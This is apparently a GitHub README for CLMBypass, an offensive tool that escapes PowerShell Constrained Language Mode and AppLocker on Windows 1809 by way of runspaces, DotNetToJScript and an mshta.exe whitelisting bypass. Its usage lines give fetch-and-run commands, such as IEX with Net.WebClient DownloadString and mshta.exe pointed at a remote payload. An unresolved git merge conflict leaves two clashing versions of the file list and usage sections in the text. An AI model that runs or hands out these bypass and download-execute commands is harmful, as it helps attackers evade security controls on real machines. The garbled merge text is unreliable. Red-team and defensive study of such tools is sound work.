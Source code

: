 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

#### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr>

### contents
- CLMBypass.hta [A][C]
  - The WScript.Shell creates a new runspace
  - `payload.ps1` is downloaded and executed in FullLanguage mode
<<<<<<< HEAD
  - **Usage:** mshta.exe http://localhost/CLMBypass.hta`
- CLMBypass.js [A][C]
  - Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
  - **Usage:** On line `131` you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
  - when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).
- CLMBypass.exe [C]
  - Compiled as PE32 .NET Framework 4.0
  - **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`
- Program.cs
  - C# source code for CLMBypass.dll, a little outdated for the PE
- payload.ps1
  - payload to be run in FullLanguage mode
=======
- Program.cs
  - C# source code
- CLMBypass.exe
  - Compiled as PE32 .NET Framework 4.0

## usage
#### CLMBypass by itself (CLM, but no AppLocker)
```
C:\Users\CLMUser\Downloads>.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"
```

#### CLMBypass with stager (AppLocker and CLM)
```
C:\Users\CLMUser\Downloads>mshta.exe http://<ip>/payload.ps1
```
**NOTE:** This will cause a window with the rendered `stager.hta` to pop up, which can be closed without hindering the process.
>>>>>>> 3eb98024c5ec9145771446efcf44e86134e9e9de
